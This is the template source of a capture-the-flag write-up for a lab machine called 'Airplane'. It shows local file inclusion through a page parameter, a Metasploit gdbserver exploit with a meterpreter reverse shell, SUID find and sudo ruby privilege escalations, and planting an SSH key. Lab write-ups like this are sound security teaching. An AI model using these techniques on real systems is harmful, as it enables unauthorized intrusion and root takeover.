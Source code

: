 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We begin with an <strong>Nmap</strong> scan to identify open ports.")}}

{{console("nmap -T5 -p- 10.10.140.195", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 15:19 CET
Nmap scan report for 10.10.140.195
Host is up (0.079s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
6048/tcp open  x11
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 62.74 seconds")}}

{{text("We find 3 open ports:")}}

{{list(['22 (SSH)', '6048 (x11)', '8000 (HTTP)'])}}

{{text("When visiting <code class='bg-gray-300 rounded-md px-1'>http://10.10.140.195:8000</code> we get redirected to <code class='bg-gray-300 rounded-md px-1'>http://airplane.thm:8000/?page=index.html</code> and get a page about airplanes.")}}

{{text("Remember to add <code class='bg-gray-300 rounded-md px-1'>MACHINE_IP airplane.thm</code> to <code class='bg-gray-300 rounded-md px-1'>/etc/hosts</code> otherwise it won't load.")}}

{{image("../../static/writeups/airplane/images/000001.jpg")}}

{{text("What instantly caught my interest was the URL parameter. First thing that came to my mind was <code class='bg-gray-300 rounded-md px-1'>LFI</code>.")}}

{{text("I began checking for directory traversal and I was successful trying to get to <code class='bg-gray-300 rounded-md px-1'>/etc/passwd</code>.")}}

{{image("../../static/writeups/airplane/images/000002.jpg")}}

{{text("We now have the <code class='bg-gray-300 rounded-md px-1'>/etc/passwd</code> file, and while reading it we find two users - <code class='bg-gray-300 rounded-md px-1'>carlos</code> and <code class='bg-gray-300 rounded-md px-1'>hudson</code>.")}}

{{text("Unfortunately I was unable to get a flag from these users directories using this method.")}}

{{text("While looking through the <code class='bg-gray-300 rounded-md px-1'>/proc/self</code> directory which contains information about the currently running process, I read the  <code class='bg-gray-300 rounded-md px-1'>cmdline</code> file which contained the command used to run the website.")}}

{{console("cat cmdline", "/usr/bin/python3app.py")}}

{{text("We see that it was run using <code class='bg-gray-300 rounded-md px-1'>python</code> and the file name is <code class='bg-gray-300 rounded-md px-1'>app.py</code>. We should look for that file.")}}

{{text("We find it in <code class='bg-gray-300 rounded-md px-1'>/proc/self/cwd/app.py</code> and are able to read the source code.")}}

{{console("", "from flask import Flask, send_file, redirect, render_template, request
import os.path

app = Flask(__name__)


@app.route('/')
def index():
    if 'page' in request.args:
        page = 'static/' + request.args.get('page')

        if os.path.isfile(page):
            resp = send_file(page)
            resp.direct_passthrough = False

            if os.path.getsize(page) == 0:
                resp.headers['Content-Length']=str(len(resp.get_data()))

            return resp
        
        else:
            return 'Page not found'

    else:
        return redirect('http://airplane.thm:8000/?page=index.html', code=302)    


@app.route('/airplane')
def airplane():
    return render_template('airplane.html')


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)")}}

{{text("Unfortunately we can't find any more vulnerabilities except for already exploited LFI.")}}

{{text("I tried to find out what other service was running on the other port.")}}

{{header("Shell as hudson", "shell-as-hudson")}}

{{text("For that we need that service <code class='bg-gray-300 rounded-md px-1'>PID</code> so we can pass it to the <code class='bg-gray-300 rounded-md px-1'>/proc/[PID]/cmdline</code> directory.")}}

{{text("I used <code class='bg-gray-300 rounded-md px-1'>Intruder</code> in Burp Suite and searched for port <code class='bg-gray-300 rounded-md px-1'>6048</code>.")}}

{{image("../../static/writeups/airplane/images/000003.jpg")}}

{{text("The correct PID was <code class='bg-gray-300 rounded-md px-1'>525</code>.")}}

{{text("I used <code class='bg-gray-300 rounded-md px-1'>metasploit</code> in order to exploit the <code class='bg-gray-300 rounded-md px-1'>gdbserver</code> running on that port.")}}

{{image("../../static/writeups/airplane/images/000004.jpg")}}

{{text("After setting correct options, I ran the exploit.")}}

{{text("You have to run <code class='bg-gray-300 rounded-md px-1'>set target 1</code> and <code class='bg-gray-300 rounded-md px-1'>set payload linux/x64/meterpreter/reverse_tcp</code> because we are attacking a 64-bit machine.")}}

{{image("../../static/writeups/airplane/images/000005.jpg")}}

{{text("After that use <code class='bg-gray-300 rounded-md px-1'>shell</code> to gain a shell.")}}

{{text("It worked and now we are user <code class='bg-gray-300 rounded-md px-1'>hudson</code>.")}}

{{header("Shell as carlos", "shell-as-carlos")}}

{{text("We look for binaries with <code class='bg-gray-300 rounded-md px-1'>SUID</code> bit set.")}}

{{text("We find <code class='bg-gray-300 rounded-md px-1'>find</code> binary that is owned by user <code class='bg-gray-300 rounded-md px-1'>carlos</code>.")}}

{{console("find / -perm -u=s -type f 2>/dev/null", "/usr/bin/find
...")}}

{{text("We search for it on <code class='bg-gray-300 rounded-md px-1'>GTFOBins</code>.")}}

{{link("https://gtfobins.github.io/gtfobins/find/", "https://gtfobins.github.io/assets/logo.png", "find | GTFOBins")}}

{{text("According to this if we run <code class='bg-gray-300 rounded-md px-1'>find . -exec /bin/sh -p \; -quit</code>, we should become the user <code class='bg-gray-300 rounded-md px-1'>carlos</code>.")}}

{{image("../../static/writeups/airplane/images/000007.jpg")}}

{{header()}}

{{text("We now can add our own key to <code class='bg-gray-300 rounded-md px-1'>/home/carlos/.ssh/authorized_keys</code> to get a better shell.")}}

{{text("We generate a key pair with <code class='bg-gray-300 rounded-md px-1'>ssh-keygen</code> and add our public key.")}}

{{image("../../static/writeups/airplane/images/000008.jpg")}}

{{text("We are now able to log in via SSH with our private key as user <code class='bg-gray-300 rounded-md px-1'>carlos</code>.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("We run <code class='bg-gray-300 rounded-md px-1'>sudo -l</code> to check for sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for carlos on airplane:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User carlos may run the following commands on airplane:
    (ALL) NOPASSWD: /usr/bin/ruby /root/*.rb")}}

{{text("We can run any <code class='bg-gray-300 rounded-md px-1'>.rb</code> file in <code class='bg-gray-300 rounded-md px-1'>/root</code> directory using <code class='bg-gray-300 rounded-md px-1'>/usr/bin/ruby</code>.")}}

{{text("We are easily able to exploit that using path travesal.")}}

{{text("We create a file that will add the<code class='bg-gray-300 rounded-md px-1'>SUID</code> bit to bash when run and execute our privilaged command.")}}

{{image("../../static/writeups/airplane/images/000009.jpg")}}

{{text("Now we use <code class='bg-gray-300 rounded-md px-1'>bash -p</code> to become root and read the final flag.")}}

{{image("../../static/writeups/airplane/images/000010.jpg")}}

{{script()}}